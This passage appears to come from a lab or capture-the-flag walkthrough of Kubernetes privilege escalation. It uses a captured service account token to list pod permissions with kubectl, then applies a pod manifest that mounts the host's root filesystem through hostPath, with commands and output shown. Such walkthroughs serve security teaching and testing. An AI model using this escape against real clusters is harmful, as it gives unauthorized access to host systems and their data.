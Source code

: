 Now that we have both the token and certificate, we can check the access rights in the Kubernetes cluster.

we can inquire of K8s whether we have permission to perform different actions on various resources.

#### List Privileges
```
$ export token=`cat k8.token`
$ kubectl --token=$token --certificate-authority=ca.crt --server=https://10.129.10.11:6443 auth can-i --list


Resources										Non-Resource URLs	Resource Names	Verbs 
selfsubjectaccessreviews.authorization.k8s.io		[]					[]				[create]
selfsubjectrulesreviews.authorization.k8s.io		[]					[]				[create]
pods											    []					[]				[get create list]
```

we can get, create, and list pods which are the resources representing the running container in the cluster. 

From here on, we can create a YAML file that we can use to create a new container and mount the entire root filesystem from the host system into this container's /root directory. From there on, we could access the host systems files and directories.

#### Pod YAML

```yaml
apiVersion: v1
kind: Pod
metadata:
  name: privesc
  namespace: default
spec:
  containers:
  - name: privesc
    image: nginx:1.14.2
    volumeMounts:
    - mountPath: /root
      name: mount-root-into-mnt
  volumes:
  - name: mount-root-into-mnt
    hostPath:
       path: /
  automountServiceAccountToken: true
  hostNetwork: true

```

#### Creating a new Pod
```shell
$ kubectl --token=$token --certificate-authority=ca.crt --server=https://10.129.96.98:6443 apply -f privesc.yaml

pod/privesc created


$ kubectl --token=$token --certificate-authority=ca.crt --server=https://10.129.96.98:6443 get pods

NAME	READY	STATUS	RESTARTS	AGE
nginx	1/1		Running	0			23m
privesc	1/1		Running	0			12s
```
